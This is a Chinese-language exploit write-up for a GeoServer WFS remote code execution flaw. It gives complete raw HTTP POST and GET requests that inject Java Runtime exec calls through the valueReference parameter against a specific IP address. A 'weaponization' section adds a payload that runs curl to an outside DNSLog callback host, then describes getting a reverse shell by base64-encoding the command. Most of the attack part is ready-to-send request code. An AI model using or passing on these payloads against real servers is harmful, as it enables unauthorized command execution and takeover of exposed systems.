 # 0x01 漏洞复现
## POST
```
POST /geoserver/wfs HTTP/1.1
Host: 39.98.250.47:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'touch /tmp/success2')</wfs:valueReference>
</wfs:GetPropertyValue>
```
![image](./01.png)

## GET
```
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1') HTTP/1.1
Host: 39.98.250.47:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0


```
![image](./02.png)

## 结果
成功创建文件success1和success2  
![image](./03.png)  
值得注意的是，typeNames必须存在，我们可以在Web页面中找到当前服务器中的所有Types  


# 0x02 漏洞武器化
## POST
### DNSLog

需要注意ping pvip4zip.eyes.sh会报错，需要用curl pvip4zip.eyes.sh

```
POST /geoserver/wfs HTTP/1.1
Host: 39.98.250.47:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 358

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'curl pvip4zip.eyes.sh')</wfs:valueReference>
</wfs:GetPropertyValue>
```
成功收到dnslog记录  
![image](./04.png)  

### 反弹Shell
直接插入反弹shell的命令会提示请求解析失败  
![image](./07.png)  

base64编码后，返回正常  
![image](./06.png)  

成功收到反弹shell  
![image](./05.png)  